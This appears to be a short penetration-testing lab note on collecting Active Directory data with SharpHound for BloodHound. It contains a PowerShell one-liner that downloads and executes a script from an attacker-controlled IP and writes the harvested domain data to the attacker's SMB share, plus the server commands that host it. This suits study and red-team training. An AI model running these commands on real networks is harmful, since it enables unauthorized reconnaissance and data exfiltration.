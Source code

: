 ### Collect Data From Domain Computer

#### Using SharpHound.ps1

**CheatSheet**: https://www.thehacker.recipes/ad/recon/bloodhound

Host `SharpHound.ps1`

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell]
└─$ python3 -m http.server 80
```

Open SMB Server

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ smbserver.py s . -smb2support
```

Use SharpHound to collect data

```bash
iex (new-object net.webclient).downloadstring("http://10.11.19.145/SharpHound.ps1"); Invoke-BloodHound -CollectionMethods All -RandomFileNames -OutputDirectory \\10.11.19.145\s\
```

Swap the file into bloodhound

![](attachment/afe758476bc46cc79fcae269d58a98e8.png)
